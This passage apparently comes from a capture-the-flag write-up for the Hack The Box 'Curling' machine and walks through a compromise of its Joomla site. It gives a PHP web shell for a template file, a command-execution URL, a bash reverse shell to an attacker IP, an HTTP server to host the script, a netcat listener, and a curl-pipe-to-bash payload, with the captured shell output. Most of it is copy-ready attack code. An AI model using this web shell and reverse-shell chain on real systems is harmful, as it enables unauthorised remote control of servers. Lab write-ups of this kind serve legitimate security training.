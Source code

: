 - PHP system() is just like the C version of the function in that it executes the given command and outputs the result.

- PHP $_REQUEST is a super global variable which is used to collect data after submitting an HTML form.

#### Add to existing PHP file

	system($_REQUEST['pwn']);

#### Add to empty PHP file

	<?php system($_REQUEST['pwn']); ?>
	
### RCE

	http://10.129.171.59/templates/protostar/htb.php?pwn=id		// uid=33(www-data) gid=33(www-data) groups=33(www-data) 

### Create  reverse shell script

Spawn an interactive bash shell, redirecting standard output to a tcp socket and standard input to standard output. [^3]

	bash -i >& /dev/tcp/10.10.17.201/9001 0>&1

Try this if it doesn't work:

	bash -c 'bash -i >& /dev/tcp/10.10.17.201/9001 0>&1'
	
### Create HTTP server to serve reverse shell script

	python -m SimpleHTTPServer 80		// Python
	python3	-m http.server 80			// Python 3

### Setup listener to receive reverse shell

	nc -lvnp 9001

### Execute reverse shell script

	http://10.129.171.59/templates/protostar/htb.php?pwn=curl 10.10.17.201/reverse_shell.sh | bash

		nc -lvnp 9001
	
```text
listening on [any] 9001 ...
connect to [10.10.17.201] from (UNKNOWN) [10.129.171.59] 37656
bash: cannot set terminal process group (1542): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html/templates/protostar$
```

## Lateral Movement

### Upgrade terminal for improved functionality (arrow keys, etc.)


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency